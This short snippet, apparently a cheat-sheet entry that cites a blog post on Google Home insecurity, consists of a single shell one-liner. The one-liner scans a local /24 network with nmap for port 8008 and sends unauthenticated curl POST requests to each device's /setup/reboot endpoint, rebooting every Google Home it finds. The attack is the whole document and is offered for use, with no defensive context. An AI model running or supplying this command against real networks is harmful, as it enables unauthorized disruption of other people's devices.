 ##### Reboot all google home devices on network
nmap --open -p 8008 192.168.1.0/24 | awk '/is up/ {print up}; {gsub (/\(|\)/,""); up = $NF}' | xargs -I % curl -Lv -H Content-Type:application/json --data-raw '{"params":"now"}' http://%:8008/setup/reboot

##### Source
https://jerrygamblin.com/2018/10/29/google-home-insecurity/
